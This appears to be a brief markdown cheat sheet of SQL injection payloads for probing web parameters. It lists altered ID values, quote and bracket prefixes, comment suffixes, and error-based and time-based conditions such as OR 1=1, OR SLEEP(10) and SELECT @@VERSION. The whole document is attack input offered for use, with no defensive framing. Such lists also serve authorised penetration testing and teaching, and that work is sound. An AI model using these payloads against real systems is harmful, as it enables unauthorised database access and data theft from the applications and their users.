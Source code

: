 # SQL Query List

## Change numeric value of parameter ID

Before adding to the prefix next to the parameter value. Try to change the numeric value from the list below:

```
id=-1
id=9999.99
```

## Prefix SQL Query List

```
<whitespace>
'
"
\
')
")
```

## Suffix SQL Query List

```
--
#
/*
--<whitespace>
-- -
-- //
AND ('abc'='abc
```

## Error-based Query List

```
OR 1=1
OR 1=1 IN (SELECT @@VERSION)
OR '1'='1'
OR 1=2
OR 0=0
OR a=a
OR SLEEP(10)
AND 1=1
AND 1=1 IN (SELECT @@VERSION)
AND '1'='1'
AND 1=2
AND 0=0
AND a=a
AND SLEEP(10)
```